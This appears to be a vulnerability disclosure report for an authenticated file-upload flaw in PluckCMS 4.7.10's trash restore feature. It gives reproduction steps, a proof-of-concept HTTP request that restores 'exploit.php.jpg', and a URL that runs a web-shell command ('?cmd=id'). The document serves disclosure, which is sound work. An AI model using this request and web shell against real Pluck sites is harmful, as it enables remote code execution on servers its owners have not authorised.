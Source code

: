 # Vulnerability Type

Unrestricted File Upload

# Description

File Upload vulnerability in PluckCMS v.4.7.10 allows a remote attacker to execute arbitrary code via the trashcan_restoreitem.php file.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/pluck-cms/pluck/
 - Version: 4.7.10
 - Tested on: Windows 10

 ## Exploit Description

A logic flaw exists in the trash recovery mechanism where file names are reconstructed during restore, potentially leading to arbitrary code execution.

 ## Steps to Reproduce

 1. Log in as an admin user.
  2. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
  3. The file will be restored and can be accessed through the url.

 ## Proof Of Concept
```
GET /admin.php?action=trash_restoreitem&var1=exploit.php.jpg&var2=file HTTP/1.1
Host: pluck
Cookie: PHPSESSID=[valid_session_id]

**Access Method:**  
http://pluck/files/exploit_copy.php?cmd=id

**Additional Conditions:**  
1. Valid session cookie required (authenticated attack)
2. File `exploit.php.jpg` must exist in `data/trash/files/` before restoration
3. Server must not filter double extensions during file upload/trash operations
```
